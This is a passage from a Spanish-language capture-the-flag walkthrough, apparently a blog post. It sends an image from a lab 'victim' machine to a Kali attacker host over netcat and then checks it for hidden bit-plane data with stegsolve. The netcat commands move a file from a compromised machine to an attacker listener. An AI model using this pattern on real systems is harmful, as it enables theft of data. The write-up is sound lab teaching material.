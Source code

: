 Encontramos una imagen, vamos a pasarla a nuestra máquina atacante con netcat para su posterior análisis. Debemos de lanzar primero la orden en Kali para quedarnos en escucha para, posteriormente, lanzar `netcat` en la máquina víctima para transferirnos la imagen.

`Terminal máquina atacante`

```bash
nc -lvnp 4444 > iknowyou.jpg
```

`Terminal máquina víctima`

```bash
nc -N 10.0.2.5 4444 < iknowyou.jpg
```

![ncImagen](/assets/img/2023-02-17/pasarimagendeservidor.png)

Como no se ve nada significante en los metadatos y no contiene nada oculto dentro de ésta, vamos a intentar ver si tiene información visualmente escondida, analizándola a nivel de capas de bits. Para ello, vamos a utilizar la herramienta [`stegsolve`](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install).

Si no añadimos la ubicación de la herramienta al `path`, lo lanzamos desde el directorio donde se encuentra.

```bash
./stegsolve.jar
```

![gitclone](/assets/img/2023-02-17/gitclonestegsolve.png)
